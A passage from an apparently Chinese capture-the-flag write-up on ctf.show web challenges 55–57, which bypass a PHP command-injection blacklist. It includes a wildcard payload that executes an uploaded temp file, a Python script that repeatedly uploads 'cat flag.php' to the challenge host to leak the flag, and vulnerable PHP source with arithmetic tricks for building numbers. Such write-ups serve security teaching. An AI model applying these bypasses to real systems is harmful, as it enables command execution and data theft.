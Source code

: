 构造POC
**注：shell程序必须以"#!/bin/sh"开始，#! /bin/sh 是指此脚本使用/bin/sh来解释执行，#!是特殊的表示符，其后面跟的是解释此脚本的shell的路径**

![在这里插入图片描述](https://img-blog.csdnimg.cn/62340463ed224d4a9b05d03d80da2c72.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBA5LiAYXVl,size_20,color_FFFFFF,t_70,g_se,x_16)

```
?c=./???/????????[@-[]
```

![在这里插入图片描述](https://img-blog.csdnimg.cn/28f9e75bfe0947e882d8e719947447b0.png?x-oss-process=image/watermark,type_ZHJvaWRzYW5zZmFsbGJhY2s,shadow_50,text_Q1NETiBA5LiAYXVl,size_20,color_FFFFFF,t_70,g_se,x_16)



payload 4

运行下面脚本

```
import requests

while True:
    url = "http://a88c904d-6cd4-4eba-b7e9-4c37e0cf3a7d.chall.ctf.show/?c=.+/???/????????[@-[]"
    r = requests.post(url, files={"file": ('feng.txt', b'cat flag.php')})
    if r.text.find("flag") > 0:
        print(r.text)
        break

```



### web 56

因为过滤掉了数字，所以web55前两个方法都不行了。

还是用上传文件的方法

### web57

```
//flag in 36.php
if(isset($_GET['c'])){
    $c=$_GET['c'];
    if(!preg_match("/\;|[a-z]|[0-9]|\`|\|\#|\'|\"|\`|\%|\x09|\x26|\x0a|\>|\<|\.|\,|\?|\*|\-|\=|\[/i", $c)){
        system("cat ".$c.".php");
    }
}
```


 利用linux的$​(())构造出36

$(())=0

\$((~ $(()) ))=-1

(())是用来整数运算的命令，内部可以放表达式，默认相加，通过$((~36)) 可得36取反为-37
